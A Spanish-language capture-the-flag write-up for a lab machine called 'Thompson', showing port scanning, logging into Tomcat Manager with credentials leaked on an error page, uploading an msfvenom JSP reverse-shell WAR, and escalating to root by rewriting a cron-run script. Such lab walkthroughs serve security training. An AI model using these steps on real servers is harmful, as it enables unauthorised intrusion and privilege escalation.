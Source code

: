 # Thompson

### ESCANEO DE PUERTOS

Primero para verificar la conectividad con nuestra máquina objetivo, es útil lanzar un comando de **ping** se utiliza para enviar un único paquete:

{% code lineNumbers="true" %}
```
ping -c1 {IP}
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image-20230630094628029.png" alt=""><figcaption></figcaption></figure>

Ahora, procedemos a realizar un escaneo de puertos utilizando el comando **nmap**.

{% code lineNumbers="true" %}
```
sudo nmap -p- -open -sS --min-rate 5000 -vvv -n -Pn {IP} -oG allPorts
```
{% endcode %}

Al ejecutar este comando con privilegios de administrador en Kali Linux y especificar la dirección IP de la máquina objetivo, realizará un escaneo completo de todos los puertos abiertos en el destino especificado:

<figure><img src="../../.gitbook/assets/image-20230630094648621 (1).png" alt=""><figcaption></figcaption></figure>

En el ejemplo que se muestra, se han identificado tres puertos abiertos:

* **Puerto 22/TCP SSH**: El puerto 22 es utilizado por el protocolo SSH (Secure Shell) para proporcionar acceso seguro a través de una red. SSH se utiliza comúnmente para administrar sistemas remotos de forma segura y permite la autenticación y el cifrado de la comunicación.
* **Puerto 8009/TCP AJP13**: El puerto 8009 se utiliza para el protocolo AJP13 (Apache JServ Protocol 1.3), que es un protocolo utilizado para la comunicación entre un servidor web y un contenedor de servlets como Apache Tomcat. AJP13 es utilizado para mejorar el rendimiento y la eficiencia en entornos de aplicaciones web.
* **Puerto 8080/TCP HTTP**: El puerto 8080 es comúnmente utilizado para el tráfico HTTP (Hypertext Transfer Protocol). Es un puerto alternativo utilizado para acceder a un servidor web. En este caso, se menciona que Apache Tomcat está ejecutándose en este puerto, lo que sugiere la presencia de un servidor web Tomcat al que se puede acceder a través de un navegador web.

Nos centraremos en el **Puerto 8080/TCP** y su servidor **HTTP** dado que se trata de un servidor Tomcat, que generalmente es vulnerable.

### **PUERTO 8080/TCP HTTP**

Podemos ver que en el puerto 8080 se está ejecutando Apache Tomcat, lo cual sugiere que podemos acceder a través de `<ip_address>:8080` al servidor **HTTP** a través de un navegador web. &#x20;

Al acceder nos encontramos con la pagina predeterminada de **Tomcat** que generalmente es vulnerable o tiene algún tipo de credenciales predeterminadas disponibles.

<figure><img src="../../.gitbook/assets/image-20230630095227007.png" alt=""><figcaption></figcaption></figure>

Podemos intentar acceder a Manager App ya que desde allí podemos acceder al panel de control de Tomcat, pero nos pide unas credenciales las cuales no conocemos.&#x20;

<figure><img src="../../.gitbook/assets/image-20230630095608992.png" alt=""><figcaption></figcaption></figure>

Sin embargo, una vez pulsamos el botón Cancelar nos redirige a una página de error de acceso no autorizado que nos muestra las credenciales para acceder al menú de administrador, una vulnerabilidad que vamos a explotar.

<figure><img src="../../.gitbook/assets/image-20230630095646107.png" alt=""><figcaption></figcaption></figure>

Utilizamos para acceder al panel Tomcat Web Application Manager o panel de administrador y observamos que efectivamente son las credenciales del administrador del servidor HTTP. Ahora tenemos acceso al gestor de aplicaciones.

<figure><img src="../../.gitbook/assets/image-20230630095829556.png" alt=""><figcaption></figcaption></figure>

Tomcat ofrece la posibilidad de subir un fichero de tipo .war directamente en el gestor de aplicaciones. Esto significa que podemos cargar un fichero útil y luego navegar hacia el para que se ejecute.

Por lo tanto, podemos crear un **payload** personalizado utilizando **msfvenom**, subirlo al servidor y obtener un **shell inverso** en la máquina. Un gran recurso donde encontrar diversas formas para explotar Tomcat Manager es el articulo [Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/).

En nuestro caso crearemos el siguiente **payload** en **WAR:**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP_LOCAL} LPORT=4444 -f war > /ruta/shell.war
```

<figure><img src="../../.gitbook/assets/image-20230630101244437.png" alt=""><figcaption></figcaption></figure>

Este comando básicamente crea una carga útil de **shell inversa** con la dirección IP del localhost y el puerto local de escucha. Todo esto lo almacena dentro de un archivo WAR.

| Switches  | Function                                                                                     |
| --------- | -------------------------------------------------------------------------------------------- |
| -p        | Determinar el payload que se va a utilizar.                                                  |
| -f        | Determinar el tipo de archivo de salida.                                                     |
| LHOST     | Dirección IP a la cual la máquina víctima debe conectarse (dirección IP del atacante).       |
| LPORT     | Puerto en el cual la máquina víctima debe conectarse (donde el atacante estaría escuchando). |

Ahora podemos cargar nuestro archivo WAR a través del administrador de aplicaciones del servidor Tomcat de la maquina objetivo.

<figure><img src="../../.gitbook/assets/image-20230630100635755.png" alt=""><figcaption></figcaption></figure>

Antes de acceder al archivo, debemos iniciar un listener en nuestra maquina atacante utilizando el comando `nc -nvlp 4444`. Y en cuanto accedamos al archivo, obtendremos un **shell inverso** en nuestra maquina.

<figure><img src="../../.gitbook/assets/image-20230630102510117.png" alt=""><figcaption></figcaption></figure>

Ya estamos conectados, ahora podremos navegar por la maquina victima hasta encontrar las Flags que necesitamos. En este caso las flags que nos pide la prueba son los ficheros:

* user.txt&#x20;
* root.txt

#### **USER.TXT**

Para encontrar nuestra primera flag debemos navegar hasta el directorio `/home/jack` donde se encuentra el fichero **user.txt** el cual contiene la primera respuesta de la prueba.

Usaremos el comando `cd` para retroceder dos veces en los directorios hasta alcanzar el directorio raíz donde se encuentra `/home` y el comando `ls` para listar el contenido del directorio en el que nos encontramos.

<figure><img src="../../.gitbook/assets/image-20230630121742495.png" alt=""><figcaption></figcaption></figure>

Entramos en el directorio `/home` utilizando `cd /home` y listamos el contenido dentro del directorio. Observamos que dentro se encuentra la carpeta `jack` así que accedemos a ella y listamos su contenido.

<figure><img src="../../.gitbook/assets/image-20230630121858712.png" alt=""><figcaption></figcaption></figure>

Hemos encontrado varios ficheros de nuestro interés:

* **id.sh**: Este archivo es un script de shell utilizado
* **test.txt**: Este archivo es un archivo de texto
* **user.txt**: Este archivo parece ser un archivo de texto

Para obtener la respuesta a nuestra primera pregunta y capturar nuestra primera bandera del reto, tendremos que realizar el comando `cat user.txt` para ver el contenido del fichero.

<figure><img src="../../.gitbook/assets/image-20230630124250173.png" alt=""><figcaption></figcaption></figure>

#### **ROOT.TXT**

Vamos a analizar el contenido de los otros dos ficheros que hemos encontrado en el directorio.

<figure><img src="../../.gitbook/assets/image-20230630124742067.png" alt=""><figcaption></figcaption></figure>

Observamos lo siguiente:

* **id.sh** es un fichero que lee la id y lo escribe en el archivo `test.txt`.
* **text.txt** al observar este archivo nos deja claro que el script se esta ejecutando con privilegios de root.

Teniendo en cuenta la información obtenida de estos ficheros, llegamos a la conclusión de que todo lo que tenemos que hacer es modificar el contenido del ejecutable `id.sh` para leer el indicador y guardarlo en `test.txt`.

Como el objetivo es solo ller el indicador, simplemente vamos a poner un comando para leer el indicador de root.

```
echo 'cat /root/root.txt >> test.txt' >> id.sh
```

Como estamos intentando ejecutar el script nosotros mismos, su ejecución se esta realizando con nuestros permisos por esto no podremos realizarlo y nos indicara que no tenemos permiso de ejecución.&#x20;

Tendremos que investigar como se estaba ejecutando el script como root, a simple vista podríamos llegar a la conclusión de que es un trabajo automatizado.

Vamos a ver el contenido del fichero contab para comprobar los trabajos:

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image-20230630103833021.png" alt=""><figcaption></figcaption></figure>

Exactamente, el script es un trabajo automatizado por lo que tan solo tendremos que esperar a que comience su ejecución y obtendremos nuestra segunda flag.

Vamos a introducir los siguientes comandos para ejecutar el script:

```
echo '#!/bin/bash' > id.sh
```

```
echo 'cat /root/root.txt > text.txt' >> id.sh
```

Esperaremos que se realice el cronjob para leer el fichero test.txt y obtener el indicador de root.

<figure><img src="../../.gitbook/assets/image-20230630104525862.png" alt=""><figcaption></figcaption></figure>
